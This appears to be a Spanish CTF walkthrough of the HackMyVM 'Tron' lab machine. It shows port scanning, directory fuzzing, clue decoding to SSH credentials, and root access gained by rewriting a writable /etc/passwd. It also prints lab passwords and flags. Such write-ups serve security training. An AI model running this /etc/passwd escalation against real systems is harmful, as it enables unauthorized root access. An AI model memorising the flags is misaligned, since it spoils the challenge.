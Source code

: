 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Tron HackMyVM (Easy- Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-10 02:16 EDT
Nmap scan report for 192.168.1.172
Host is up (0.00029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1f:ed:64:93:84:b5:b2:e8:af:5a:0e:6f:52:af:4b:48 (RSA)
|   256 3d:df:6f:02:13:9e:15:f8:51:94:30:f8:45:e3:f2:93 (ECDSA)
|_  256 2f:f4:af:e1:f4:c4:a5:3b:50:bb:e5:b9:2a:9f:39:de (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Master Control Program
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:8B:31:4C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.62 seconds
```

Veremos que hay un puerto `80` levantado, por lo que si entramos en el veremos una pagina normal y corriente, vamos a realizar un poco de `fuzzing` para ver que podemos ver.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.172/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 309]
/.html                (Status: 403) [Size: 278]
/img                  (Status: 200) [Size: 936]
/manual               (Status: 200) [Size: 626]
/robots.txt           (Status: 200) [Size: 623]
/font                 (Status: 200) [Size: 935]
/.html                (Status: 403) [Size: 278]
/MCP                  (Status: 200) [Size: 1140]
/server-status        (Status: 403) [Size: 278]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Veremos de todo esto una ruta bastante interesante llamada `/MCP` vamos a probar a entrar dentro de la misma.

Si entramos dentro veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Vemos que hay varios archivos, pero si nos descargamos el archivo llamado `tron.txt` veremos lo siguiente:

```
MASTER CONTROL PROGRAM
----------------------

Ram:
Do you believe in the Users?

Crom:
Sure I do! If I didn't have a User, than who wrote me? 


KysrKysrKysrK1s+Kz4rKys+KysrKysrKz4rKysrKysrKysrPDw8PC1dPj4+PisrKysrKysrKysrKy4tLS0tLi0tLS0tLS0tLS0tLisrKysrKysrKysrKysrKysrKysrKysrKy4tLS0tLS0tLS0tLS0tLS0tLS0tLS4rKysrKysrKysrKysrLg==
```

Vemos que hay un codigo cifrado, por lo que vamos a intentar decodificarlo de la siguiente forma:

```shell
echo "KysrKysrKysrK1s+Kz4rKys+KysrKysrKz4rKysrKysrKysrPDw8PC1dPj4+PisrKysrKysrKysrKy4tLS0tLi0tLS0tLS0tLS0tLisrKysrKysrKysrKysrKysrKysrKysrKy4tLS0tLS0tLS0tLS0tLS0tLS0tLS4rKysrKysrKysrKysrLg==" | base64 -d
```

Info:

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>++++++++++++.----.-----------.++++++++++++++++++++++++.--------------------.+++++++++++++.
```

Vemos que nos da otro codigo codificado que esta en formato `brainfuck` por lo que si lo decodificamos se quedara algo asi:

```
player
```

Vemos que sera un nombre de usuario, ahora si nos vamos a `terminalserver` -> `30513.txt` veremos esto:

```
substitute
--------------------------
plaintext
abcdefghijklmnopqrstuvwxyz

ciphertext
zyxwvutsrqponmlkjihgfedcba
--------------------------
```

Vemos que esto puede ser como un codigo para poder decodificar algo que este por ahi, por lo que vamos a investigar un poco.

Buscando un rato, si vamos a la pagina principal e inspeccionamos el codigo veremos lo siguiente:

```html
<!-- kzhh:SbWP9q94ZtE9qD  -->
```

Vamos a utilizar esto para aplicar la decodificacion de sustitucion con la palabra que encontramos a ver que vemos:

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado y la contraseña de `player` es `SyWP9j94ZgE9jD` por lo que vamos a conetcarnos por `SSH`.

### SSH

```shell
ssh player@<IP>
```

Metemos como contraseña `SyWP9j94ZgE9jD` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
HMVMuserplayer2021
```

## Escalate Privileges

Despues de buscar un rato si hacemos lo siguiente:

```shell
find /etc -type f -writable 2>/dev/null
```

Info:

```
/etc/passwd
```

Veremos que podemos sobreescribir el archivo `passwd`, por lo que podremos hacer lo siguiente:

Antes codificaremos la contraseña para que la admita en el archivo `passwd`.

```shell
openssl passwd 1234
```

Info:

```
$1$YoLbOiy7$eDZyWwzWVII2TQyt3qjTH.
```

Ahora en la maquina victima vamos a establecerle dicha contraseña codificada a `root`.

```shell
nano /etc/passwd

#Dentro del nano
root:x:0:0:root:/root:/bin/bash #Pasamos de esto
root:$1$YoLbOiy7$eDZyWwzWVII2TQyt3qjTH.:0:0:root:/root:/bin/bash #<--------------- Ha esto
```

Lo guardamos y realizamos lo siguiente:

```shell
su root
```

Metemos como contraseña `1234` y veremos que seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
HMVMMasterControlProgram2021
```
